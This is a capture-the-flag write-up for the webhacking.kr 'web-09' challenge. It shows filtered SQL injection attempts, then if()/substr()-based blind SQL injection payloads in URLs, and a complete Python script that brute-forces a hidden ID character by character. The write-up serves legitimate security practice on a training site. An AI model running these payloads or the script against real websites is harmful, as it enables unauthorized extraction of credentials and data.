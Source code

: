 Problem9
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-09/>   
 
If you enter in the URL, you can see like the bottom photo.   
      
<img src="./image/1.png"/>   

### First, Click 1    

<img src="./image/2.png"/>  

If you click one, you can see the page like this.  
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=1>.     

### Second, Click 2    

<img src="./image/3.png"/>    

If you click two, you can see the page like this.   
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=2>.  
   
### Third, Click 3   

<img src="./image/4.png"/>    

Likewise, only the 'no' value of URL changes to 3.   

Based on that, if you change the value of 'no' to 4, you can see like the bottom photo.   

<img src="./image/11.png"/>    
    
Thus, the specfic text is disappeared.    

#### But, we can know <strong>"column: id, no" and "no 3's id is password"</strong> through this.   
#### In conclusion, if you enter 3's ID in the password, the problem is solved.    
#### Besides, the column have two elements that are 'id' and 'no'.   

Through this, we can think about SQL Injection or Blind SQL Injection.    
So, I tried to enter <strong>union</strong>, <strong>select</strong>, <strong>' or 1=1#</strong> etc...   
But, the page showed <strong>Access Denied</strong> and could not be solved in this way.   

<img src="./image/5.png"/>    
   
Thus, I tried to use <strong>IF STATEMENT</strong> supporting by SQL.    
We can compose IF STATEMENT in the SQL where condition query.     
    
```   
if ( Condition, [Return when true], [Return when false] ) 
```   

Based on that, let's test.   
    
First, URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(5),1,404) 

<img src="./image/6.png"/>    
     
The page correctly prints "Apple". Then, if you change the <strong>if(length(id)like(5),1,404)</strong> to <strong>if(length(id)like(5),2,404)</strong>,    
it will not print the word "Apple".  
   
<img src="./image/7.png"/>   

Second, let's test the second id.  

URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(6),2,404)

The page correctly prints "Banana".   
   
<img src="./image/8.png"/>   
     
Thus, we could find out the string length of third ID in this way.   
In addition, we could find out third ID by using substr function.    

### It's not easy to get to know each one by one, so I wrote the code.   

## Python Code   
   
```  
import requests 

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'1plfje78cfg4142vhfrt3l4lon'}
keywords = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

def HttpRequest(num, text): 
    id_length = 0 
    result = ''
    for i in range(1, 20):
        url='https://webhacking.kr/challenge/web-09/index.php?no=if(length(id)like({}),{},404)'.format(i,num)
        res = requests.get(url, headers=headers, cookies=cookies)
        if text in res.text: 
            id_length = i
            print('no {}\'s id length: {}'.format(num, i))
            break 
    
    for i in range(1, id_length + 1):
        for key in keywords: 
            url = 'https://webhacking.kr/challenge/web-09/index.php?no=if(substr(id,{},1)like({}),{},404)'.format(i, hex(ord(key)), num)
            res = requests.get(url, headers=headers, cookies=cookies)
            if text in res.text: 
                result += key
                break 
    
    print("no {}\' id: {}".format(num, result))

if __name__== '__main__':
    HttpRequest(3, "Secret")

```    
   
In priority, After obtainning the length of the ID, find out the ID through keywords.   
In the result, we can obtain the third ID like this.     
      
<img src="./image/12.png"/>   

Thus, if you enter it to password, it will be solved like this.    
    
<img src="./image/10.png"/>   
    
 




